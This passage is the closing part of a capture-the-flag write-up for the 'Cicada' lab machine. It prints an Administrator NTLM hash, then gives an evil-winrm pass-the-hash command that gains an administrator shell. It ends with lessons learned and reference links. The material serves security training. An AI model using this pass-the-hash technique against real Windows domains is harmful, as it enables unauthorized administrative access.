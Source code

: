 NTLM hash for Administrator:

```
2b87e7c93a3e8a0ea4a581937016f341
```

---

### Pass-the-Hash → SYSTEM Shell

Now we `Evil-winRM` back in as the `Administrator` as user, and the `NTLM` hash as password

```bash
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

![root](docs/root%20final%20stap.png)
🎉 Rooted!

##  LESSONS LEARNED

- SMB shares are often a good first step
- Default credentials may be reused across accounts
- Always check AD user descriptions
- SeBackupPrivilege is a powerful and dangerous privilege
- Impacket is a must-have for Windows domain machines

##  REFERENCES

- https://book.hacktricks.xyz/windows-hardening/privilege-escalation/sebackupprivilege
- https://github.com/SecureAuthCorp/impacket
- https://github.com/Hackplayers/evil-winrm
